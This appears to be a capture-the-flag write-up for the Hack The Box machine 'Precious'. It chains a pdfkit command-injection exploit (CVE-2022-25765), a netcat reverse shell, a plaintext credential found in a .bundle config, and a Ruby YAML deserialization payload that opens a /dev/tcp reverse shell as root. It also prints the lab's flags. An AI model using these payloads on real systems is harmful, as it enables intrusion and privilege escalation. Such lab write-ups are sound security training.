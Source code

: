 ```yaml
---
title: "Precious from HTB"
categories: [Hack The Box]
tags: [Hack The Box]
---
```

# Precious from HTB
add this to `/etc/hosts`
```
10.10.11.189 precious.htb
```
Access the site and it's an `url to pdf`. Start an `python3 -n http.server`and then in `enter url`place write your `http://<your_ip>:<port>`and it will make an `pdf`on it. Download that `pdf`and with `exiftool`read the description about it:
```bash
exiftool 1891ws5e0kiv1cjadkqzjyg6wk7j41ae.pdf
ExifTool Version Number         : 12.76
File Name                       : 1891ws5e0kiv1cjadkqzjyg6wk7j41ae.pdf
Directory                       : .
File Size                       : 20 kB
File Modification Date/Time     : 2024:08:13 20:01:32+04:00
File Access Date/Time           : 2024:08:13 20:01:32+04:00
File Inode Change Date/Time     : 2024:08:13 20:01:51+04:00
File Permissions                : -rw-rw-r--
File Type                       : PDF
File Type Extension             : pdf
MIME Type                       : application/pdf
PDF Version                     : 1.4
Linearized                      : No
Page Count                      : 1
Creator                         : Generated by pdfkit v0.8.6
```
There is an exploit on `pdfkit v0.8.6` It's an `RCE`attack. I found script on that in `Github`repository: https://github.com/UNICORDev/exploit-CVE-2022-25765/tree/main

```python
python3 exploit-CVE-2022-25765-pdfkit-0.8.5.py -s <your_ip> <port> -w http://precious.htb/ -p url
```
Open `netcat listener`and run the python code. you will get connection.
```bash
rlwrap nc -nlvp 1234
listening on [any] 1234 ...
connect to [10.10.16.5] from (UNKNOWN) [10.10.11.189] 39198
script /dev/null -c bash
Script started, output log file is '/dev/null'.
ruby@precious:/var/www/pdfapp$
```
There is two `user`on the machine that means we have to search for other user's password.
```bash
ls -la /home/ruby
total 28
drwxr-xr-x 4 ruby ruby 4096 Aug 13 11:57 .
drwxr-xr-x 4 root root 4096 Oct 26  2022 ..
lrwxrwxrwx 1 root root    9 Oct 26  2022 .bash_history -> /dev/null
-rw-r--r-- 1 ruby ruby  220 Mar 27  2022 .bash_logout
-rw-r--r-- 1 ruby ruby 3526 Mar 27  2022 .bashrc
dr-xr-xr-x 2 root ruby 4096 Oct 26  2022 .bundle
drwxr-xr-x 3 ruby ruby 4096 Aug 13 11:57 .cache
-rw-r--r-- 1 ruby ruby  807 Mar 27  2022 .profile
ruby@precious:~$ cd .bundle
cd .bundle
ruby@precious:~/.bundle$ ls
ls
config
ruby@precious:~/.bundle$ cat config
cat config
---
BUNDLE_HTTPS://RUBYGEMS__ORG/: "henry:Q3c1AqGHtoI0aXAYFH"
```
Password for `henry`is : Q3c1AqGHtoI0aXAYFH
Switch to `henry`and read the user flag.
***
User Flag is: c10ea1ebfde125477e81413bfa256d5f
***
```bash
henry@precious:~$ sudo -l
sudo -l

User henry may run the following commands on precious:
    (root) NOPASSWD: /usr/bin/ruby /opt/update_dependencies.rb
```
This means we can run `ruby`with root privileges. Read `/opt/update_dependencies.rb` file to get what it does.
```bash
cat /opt/update_dependencies.rb
# Compare installed dependencies with those specified in "dependencies.yml"
require "yaml"
require 'rubygems'

# TODO: update versions automatically
def update_gems()
end

def list_from_file
    YAML.load(File.read("dependencies.yml"))
end

def list_local_gems
    Gem::Specification.sort_by{ |g| [g.name.downcase, g.version] }.map{|g| [g.name, g.version.to_s]}
end

gems_file = list_from_file
gems_local = list_local_gems

gems_file.each do |file_name, file_version|
    gems_local.each do |local_name, local_version|
        if(file_name == local_name)
            if(file_version != local_version)
                puts "Installed version differs from the one specified in file: " + local_name
            else
                puts "Installed version is equals to the one specified in file: " + local_name
            end
        end
    end
end
```
This means it reads `dependencies.yml`file where you are located.
Check the `ruby`version and then search for privilege escalation with that.
Knowing `ruby version`and that we have to write some file named `dependencies.yml`it's gonna be easy.
After search i found this site where it had an `reverse shell`code.
https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/ruby-privilege-escalation/
```
---
- !ruby/object:Gem::Installer
  i: x
- !ruby/object:Gem::SpecFetcher
  i: y
- !ruby/object:Gem::Requirement
  requirements: !ruby/object:Gem::Package::TarReader
    io: !ruby/object:Net::BufferedIO &1
      io: !ruby/object:Gem::Package::TarReader::Entry &1
        read: 0
        header: "abc"
      debug_output: !ruby/object:Net::WriteAdapter &1
        socket: !ruby/object:Gem::RequestSet &1
          sets: !ruby/object:Net::WriteAdapter
            socket: !ruby/module "Kernel"
            method_id: :system
          git_set: "bash -c 'bash -i >& /dev/tcp/10.10.16.5/1235 0>&1'" # modify this
        method_id: :resolve
```
Save that to `/tmp/dependencies.yml`. `BE SURE TO BE IN /tmp DIRECTORY` Start `netcat`listener and then execute this command:
```bash
sudo /usr/bin/ruby /opt/update_dependencies.rb
```
You will get connection on `netcat`and you will be root.
***
Root Flag is: bb6cc914fbc5b2f772b198a55cafd3f9
***
![](/assets/images/Screenshot from 2024-08-13 20-27-23.png)
